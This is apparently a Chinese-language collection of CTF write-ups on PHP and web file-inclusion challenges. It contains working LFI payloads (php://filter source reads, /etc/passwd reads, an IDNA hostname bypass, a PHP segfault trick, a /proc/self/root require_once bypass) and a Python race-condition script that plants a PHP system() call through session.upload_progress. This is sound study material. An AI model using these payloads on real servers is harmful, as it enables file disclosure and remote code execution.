

[toc]

## 文件包含

纯文件包含很难出的很难

### 简单

-   [极客大挑战 2019]Secret 基础题目。
-   [RoarCTF 2019]Easy Java java题目=。=
-   [BSidesCF 2020]Had a bad day 文件包含

### 签到：

-   [SUCTF 2019]Pythonginx 该题为一个[tricks](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf),其中有关于python的字符的安全问题，除此之外还有第二种解法
-   [NPUCTF2020]ezinclude 临时文件包含
-   [FireshellCTF2020]Caas C语言

### 中等

-   [WMCTF2020]Make PHP Great Again
-   [CISCN2021 Quals]upload 当时真的好难，主要是国赛这次这个题目只给做几个小时，不然感觉很多人是可以做出来的
-   

### 困难

-   [WMCTF2020]Web Check in 2.0
-   [WMCTF2020]Web Check in 一个题目，这个有非预期
-   [CISCN2021 Quals]filter yii2 laravel LFI 的CVE改的

# Writeup

## [极客大挑战 2019]Secret

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

没有过滤filter，构造payload：`?file=php://filter/convert.base64-encode/resource=flag.php`

## [RoarCTF 2019]Easy Java

和java有关，

```
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中

/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件

/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。

/WEB-INF/database.properties：数据库配置文件   
```

不知道为啥，必须post，get不行，直接post:`filename=/WEB-INF/web.xml`,url编码下，



payload：`/WEB-INF/classes/com/wm/ctf/FlagController.class`


## [BSidesCF 2020]Had a bad day


直接文件包含：`?category=php://filter/convert.base64-encode/resource=index.php`

根据报错，改为：`?category=php://filter/convert.base64-encode/resource=index`

```html
<html>
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="description" content="Images that spark joy">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0">
    <title>Had a bad day?</title>
    <link rel="stylesheet" href="css/material.min.css">
    <link rel="stylesheet" href="css/style.css">
  </head>
  <body>
    <div class="page-layout mdl-layout mdl-layout--fixed-header mdl-js-layout mdl-color--grey-100">
      <header class="page-header mdl-layout__header mdl-layout__header--scroll mdl-color--grey-100 mdl-color-text--grey-800">
        <div class="mdl-layout__header-row">
          <span class="mdl-layout-title">Had a bad day?</span>
          <div class="mdl-layout-spacer"></div>
        <div>
      </header>
      <div class="page-ribbon"></div>
      <main class="page-main mdl-layout__content">
        <div class="page-container mdl-grid">
          <div class="mdl-cell mdl-cell--2-col mdl-cell--hide-tablet mdl-cell--hide-phone"></div>
          <div class="page-content mdl-color--white mdl-shadow--4dp content mdl-color-text--grey-800 mdl-cell mdl-cell--8-col">
            <div class="page-crumbs mdl-color-text--grey-500">
            </div>
            <h3>Cheer up!</h3>
              <p>
                Did you have a bad day? Did things not go your way today? Are you feeling down? Pick an option and let the adorable images cheer you up!
              </p>
              <div class="page-include">
              <?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
			</div>
          <form action="index.php" method="get" id="choice">
              <center><button onclick="document.getElementById('choice').submit();" name="category" value="woofers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple">Woofers<span class="mdl-button__ripple-container"><span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"></span></span></button>
              <button onclick="document.getElementById('choice').submit();" name="category" value="meowers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple">Meowers<span class="mdl-button__ripple-container"><span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"></span></span></button></center>
          </form>

          </div>
        </div>
      </main>
    </div>
    <script src="js/material.min.js"></script>
  </body>
</html>	
```

尝试`category=woofers/../flag`

有回显，那么构造：`?category=php://filter/convert.base64-encode/resource=woofers/../flag`

或者`php://filter/read=convert.base64-encode/woofers/resource=flag`等等都可以

## [SUCTF 2019]Pythonginx


源码：

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

进行了3次if判断，第二次和第三次判断之间有个编码操作，需要绕过前两个if

```python

# coding:utf-8 
for i in range(128,65537):    
    tmp=chr(i)    
    try:        
        res = tmp.encode('idna').decode('utf-8')        
        if("-") in res:            
            continue        
        print("U:{}    A:{}      ascii:{} ".format(tmp, res, i))    
    except:        
        pass
```

Nginx 重要文件目录

-   配置文件存放目录：/etc/nginx
-   主要配置文件：/etc/nginx/conf/nginx.conf
-   管理脚本：/usr/lib64/systemd/system/nginx.service
-   模块：/usr/lisb64/nginx/modules
-   应用程序：/usr/sbin/nginx
-   程序默认存放位置：/usr/share/nginx/html
-   日志默认存放位置：/var/log/nginx
-   Nginx配置文件：/usr/local/nginx/conf/nginx.conf

```
file://suctf.cℭ/usr/local/nginx/conf/nginx.conf
```

找一下flag就行了

## [NPUCTF2020]ezinclude

>   https://www.freebuf.com/vuls/202819.html
>
>   https://blog.csdn.net/qq_52737372/article/details/117789229

临时文件包含：

1.  PHP版本<7.2，segment fault特性，向PHP发送含有文件区块的数据包时，让PHP异常崩溃退出，POST的临时文件就会被保留
2.  条件竞争：利用session.upload_progress进行session文件包含
3.  条件竞争：利用能访问的phpinfo页面，对其一次发送大量数据造成临时文件没有及时被删除

```
<!--md5($secret.$name)===$pass -->
```

直接给pass为cookie中的hash

发现一个伪flag的东西：

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/woofers/resource=flflflflag.ph
```

```html
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>

```

php7会发生segment fault

-   php<7.2

    ```none
    php://filter/string.strip_tags/resource=/etc/passwd
    ```

-   php7老版本通杀

    ```none
    php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%
    ```

扫描后有个dir.php

`array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "phpv8XxU1" }`

直接包含这个文件就行

`/flflflflag.php?file=/tmp/phpv8XxU`

### 解法二：session.upload_progress

>   在PHP>5.4，`session.upload_progress.enabled`这个参数在`php.ini`中默认开启，在上传的过程中会生成上传进度文件，PHP将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ，它的存储路径可以在`phpinfo`中查到

php>5.4,尝试利用session.upload_progress进行session文件包含

-   开启upload_progress功能
    session.upload_progress.enabled = on
-   当文件上传结束后，php将会立即清空对应session文件中的内容
    session.upload_progress.cleanup = on

>   session.upload_progress.prefix = “upload_progress_”
>   session.upload_progress.name = “PHP_SESSION_UPLOAD_PROGRESS”

-   session.use_strict_mode=off

    表示对cookie中的sessionid可控，默认off。即使没有`session_start()`，也可以自己定义PHPSESSID，并且PHP会自动初始化session，并产生一个键值，这个键值由`session.upload_progress.prefix`和`session.upload_progress.name`组成，最后被写入session文件里。比如在Cookie里设置PHPSESSID=flag，PHP将会在服务器上创建一个文件：`/tmp/sess_flag`

    >   在Linux系统中，session文件一般的默认存储位置为/tmp或/var/lib/php/session

## [FireshellCTF2020]Caas

随便输入点东西，根据报错发现是c

可以包含一些东西，比如/etc/passw等，那就直接含falg

## [WMCTF2020]Make PHP Great Again

非预期解是使用`session.upload_progress`，但是buu发送请求过快不行，就给个exp：

```python
import requests
import threading
url = 'http://88c45695-e5ef-421c-94df-133d9b15eafd.node3.buuoj.cn/'
 
 
def write(session):
    while True:
        re = session.post(
            url=url,
            data={
                'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("cat flag.php");?>hacker123',
            },
            files={"file": ('hello.txt', open("test.txt", "r"))},
            cookies={'PHPSESSID': 'flag'})
        print(re.text)
 
def read(session):
    while True:
        re = session.get(url+'?file=/tmp/sess_flag')
        if "hacker123" in re.text:
            print(re.text)
            exit()
 
 
if __name__ == '__main__':
    session = requests.session()
    write = threading.Thread(target=write, args=(session,))
    write.daemon = True
    write.start()
    read(session)
```

下面是预期解：

>   require_once包含的软链接层数较多时once的hash匹配会直接失效造成重复包含.
>
>   超过20次软链接后可以绕过，

/proc/self指向当前进程的/proc/pid/，/proc/self/root/是指向/的符号链接

payload：`?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php`

## [WMCTF2020]Make PHP Great Again 2.0

跟上面的payload一模一样。。


